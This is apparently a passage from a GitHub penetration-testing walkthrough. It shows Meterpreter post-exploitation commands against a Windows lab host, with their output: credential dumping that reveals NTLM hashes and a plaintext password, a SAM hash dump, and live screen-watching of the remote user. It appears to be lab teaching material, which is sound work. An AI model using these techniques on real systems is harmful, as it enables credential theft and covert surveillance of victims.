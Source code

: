 ```bash
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```

## Post-Exploitation

Use `hashdump` command to dump all of the password hashes stored on the system.
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Dark:1000:aad3b435b51404eeaad3b435b51404ee:7c4fe5eada682714a036e39378362bab:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
meterpreter > 
```
Use `screenshare` command to allow us to watch the remote user's desktop in real time
```bash
meterpreter > screenshare
[*] Preparing player...
[*] Opening player at: /home/kali/eZcsKSBO.html
[*] Streaming...
```
<img width="912" height="257" alt="image" src="https://github.com/user-attachments/assets/885bba41-0b80-4a15-a2f6-c4a74cd2b93b" />
